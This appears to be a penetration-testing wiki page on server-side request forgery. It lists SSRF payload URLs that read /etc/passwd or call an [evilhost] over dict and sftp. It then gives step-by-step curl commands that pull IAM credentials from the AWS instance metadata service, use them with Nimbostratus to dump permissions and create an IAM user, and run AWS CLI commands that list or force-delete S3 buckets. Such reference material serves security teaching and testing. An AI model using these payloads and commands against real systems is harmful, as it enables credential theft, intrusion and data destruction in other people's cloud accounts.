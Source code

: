 # Server-side request forgery

Server-side request forgery \(SSRF\) exploits the trusted relationship between a web server and other backend systems which are not normally accessible to an attacker \(e.g. because of firewalls or application rules\). They are particularly dangerous in cloud infrastructure like AWS, because SSRF allows an attacker to query internal services like [Amazon's metadata API](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html) for credentials and other sensitive data.

## Techniques

### Basic

Generally, you'll be looking for poorly-sanitized parameters which accept URLs, either in `GET` or `POST` requests. In the examples below, `localhost` is used in the URL to access to data and services which are only accessible via the local network.

Example `GET` request with a vulnerable open redirect:

```text
http://[host]/page?url=http://localhost/api/getuser/id/1
```

Example `POST` request with a similarly unsanitized URL parameter:

```text
POST /page HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 300

url=http://localhost:1234
```

Some SSRF attacks will return a response that you can see on the vulnerable website, but others may be blind.

You can also test protocols other than HTTP:

```text
http://[host]/page.php?url=file:///etc/passwd
http://[host]/page.php?url=dict://[evilhost]:1234/
http://[host]/page.php?url=sftp://[evilhost]:1234/
http://[host]/page.php?url=ldap://localhost:1234/%0astats%0aquit
```

### Attacking AWS with SSRF

Amazon's AWS has an internal metadata service which can be queried from any instance. Attackers can use SSRF vulnerabilities to retrieve instance information and in some cases make changes to the infrastructure. [Amazon's CLI](https://docs.aws.amazon.com/cli/latest/userguide/cli-services-ec2-instances.html) performs a similar function.

There are two metadata standards for the AWS API - the newest one requires you to generate a short-term token before issuing commands. However, the older non-token version does not seem to be going away, so you could simply use `curl http://169.254.169.254/whatever` to get the same data.

The following command from [Amazon's metadata documentation](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html) allows you to generate a 6-hour token, save it in a variable and display the top-level metadata items:

```text
TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"` \
&& curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/meta-data/
```

The top-level metadata items will look something like this: 

```text
ami-id
ami-launch-index
...
public-keys/
security-groups
```

From there, you can make calls to the API to view each of the metadata items in detail. 

For example, the following command lets you view startup scripts for the instance, which may reveal credentials or paths to sensitive S3 buckets:

```text
curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/user-data/
```

To view roles for the instance:

```text
curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

Once you have a role name, you can request credentials for that role: 

```text
curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/meta-data/iam/security-credentials/SomeRole

{
  "Code" : "Success",
  "LastUpdated" : "2019-12-03T18:08:16Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ASIA...",
  "SecretAccessKey" : "V...",
  "Token" : "SomeBase64==",
  "Expiration" : "2019-12-04T00:17:43Z"
}
```

At this point you may want to consider automated AWS metadata enumeration tools like [Nimbostratus](https://andresriancho.github.io/nimbostratus/) to determine the permissions available to a role:

```text
sudo python nimbostratus dump-permissions --access-key=ASIA... --secret-key=V...
```

You can also attempt to create a new user, as a proof-of-concept:

```text
sudo python nimbostratus create-iam-user --access-key=ASIA... --secret-key=p...
```

#### Enumerating S3 buckets

The [AWS CLI](https://docs.aws.amazon.com/cli/latest/userguide/cli-services-s3.html) can be used to poke around connected S3 buckets. Some useful commands:

```text
aws s3 mb s3://bucket-name            # create a bucket
aws s3 ls                             # list buckets
aws s3 ls s3://bucket-name            # list things in a bucket
aws s3 rb s3://bucket-name --force    # delete bucket + contents
```

## Further reading

* [SSRF: Web Security Academy](https://portswigger.net/web-security/ssrf)
* [SSRF: types and exploits](https://medium.com/@madrobot/ssrf-server-side-request-forgery-types-and-ways-to-exploit-it-part-1-29d034c27978)
* [SSRF and the CapitalOne breach](https://blog.appsecco.com/an-ssrf-privileged-aws-keys-and-the-capital-one-breach-4c3c2cded3af)
* [Nimbostratus: tools for fingerprinting and exploiting Amazon](https://andresriancho.github.io/nimbostratus/)
* [SSRF payloads for many cloud providers](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)

